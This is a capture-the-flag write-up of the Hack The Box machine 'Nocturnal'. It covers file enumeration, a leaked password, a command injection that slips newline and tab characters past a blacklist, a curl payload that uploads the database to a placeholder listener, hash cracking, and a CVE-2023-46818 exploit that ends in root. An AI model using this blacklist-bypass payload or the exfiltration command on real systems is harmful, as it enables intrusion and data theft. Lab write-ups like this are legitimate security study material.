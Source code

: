https://app.hackthebox.com/machines/656

## ENUM :

Open ports

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

dirb result:

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jul 10 13:54:38 2025
URL_BASE: http://nocturnal.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://nocturnal.htb/ ----                                                                                                                                                                                                      + http://nocturnal.htb/admin.php (CODE:302|SIZE:0)                                                                                                                                                                                         
==> DIRECTORY: http://nocturnal.htb/backups/                                                                                                                                                                                               
+ http://nocturnal.htb/index.php (CODE:200|SIZE:1524)                                                                                                             
---- Entering directory: http://nocturnal.htb/backups/ ----

-----------------
END_TIME: Thu Jul 10 14:02:40 2025
DOWNLOADED: 9224 - FOUND: 2
```

No subdomain detected

I move on to using the service by analyzing it with Burp

I find the page: `http://nocturnal.htb/dashboard.php` which allows file upload, this is likely the vulnerability.

I try, but I can only download the file back, however I analyze the provided link:

`/view.php?username=zeroz&file=payload.php.pdf`

I will run several tests, what happens if I put in a non-existent file?

It returns an extension error. Now, is it possible to list all files by their extensions?

`/view.php?username=zeroz&file=*.pdf`

Yes! And that’s good news! Because with some luck, I can list the files of all the other users by using BurpSuite Intruder.

---

## Initial access / Own user

I will make 2 lists: one for extensions and a random wordlist from the internet with names.

When uploading a PHP file, I get this message:
`Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed.`

So I have my first list, and I also have the second on my Kali:
`/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt`

I’ll then run a “Cluster Bomb Attack” with Intruder.

I find 2 users:
`admin` and `amanda`

Worth digging! I run a lighter scan on those 2 users.

I find the file: `privacy.odt` on Amanda’s account

```
Dear Amanda,

Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.

The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.

Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

  

Yours sincerely,

Nocturnal's IT team
```

So I found this password: `arHkG7HAI68X8s1J`

I can connect as Amanda and access the admin panel.

I inspect the files and one part catches my eye:

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

The password is directly inserted into the shell command!
There is a filtering function:

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
```

But I doubt it’s unbreakable!

```
[';', '&', '|', '$', ' ', '`', '{', '}', '&&']
```

Despite the blacklist, nothing protects against **new lines (`%0a`)** or **tabs (`%09`)** when URL-encoded:

* `%0a` injects a line break (`\n`)
* `%09` injects a tab (`\t`), used as space in shell

The goal is to break out of the zip command to execute code directly.

And I have all the pieces! However, I couldn’t get a reverse shell, so instead I’ll execute small commands for exfiltration.

I find: `../nocturnal_database/nocturnal_database.db`

I manage to download it via my extraction script + curl:

```
password=%0abash%09-c%09"curl%09-F%09data=@../nocturnal_database/nocturnal_database.db%09http://ip:port"%0a&backup=
```

I analyze it on my machine (important to note that I also saw this in `register.php`: `$password = md5($_POST['password']);` → passwords are MD5 hashes).

![alt text](note/ctf/asset/HTB_Noctural.png)

I copy them all and use Crackstation:

| user    | password             |
| ------- | -------------------- |
| admin   | not found            |
| amanda  | not found            |
| tobias  | slowmotionapocalypse |
| kavi    | kavi                 |
| e0Al5   | not found            |
| hola    | hola                 |
| zeroz   | test                 |
| elix    | elix                 |
| test    | test                 |
| toto    | Qwerty12345!         |
| transit | 1234                 |

I assume one of these accounts must be valid, but I’m mainly looking for which one gives me SSH access, so I exfiltrate `/etc/passwd`:

```
cat passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
```

Perfect! I have credentials:
`tobias : slowmotionapocalypse`

---

## Own root

#### linpeas :

Cron checked:
`-rw-r--r--   1 root root 2473 Oct 18  2024 sendmail`

Open ports:

```
127.0.0.1:8080 (web service)
127.0.0.1:3306 (MySQL)
127.0.0.1:33060
127.0.0.1:587
127.0.0.1:25
```

Users with shell:

```
root:x:0:0:root:/root:/bin/bash
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
```

Likely related service:

```
/var/www/ispconfig
/usr/local/ispconfig
```

Mail applications:

```
sendmail
sendmail-msp
sendmail-mta
```

#### Exploit

I check the service by doing a port forward:
`ssh -L 8080:127.0.0.1:8080 tobias@10.10.11.64`

I land on an ISPConfig interface, version `3.2.10p1`, which is vulnerable to **CVE-2023-46818**.

Tobias + his password doesn’t work, I try `admin` with Tobias’ password and it works.

I can exploit the CVE! → [https://github.com/ajdumanhug/CVE-2023-46818](https://github.com/ajdumanhug/CVE-2023-46818)

`python exploit.py http://localhost:8080 admin slowmotionapocalypse`

And I get root!

```
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Login successful!
...
ispconfig-shell# whoami
root

ispconfig-shell# cat /root/root.txt
1553099a6f18b90469778a90e420f82e
```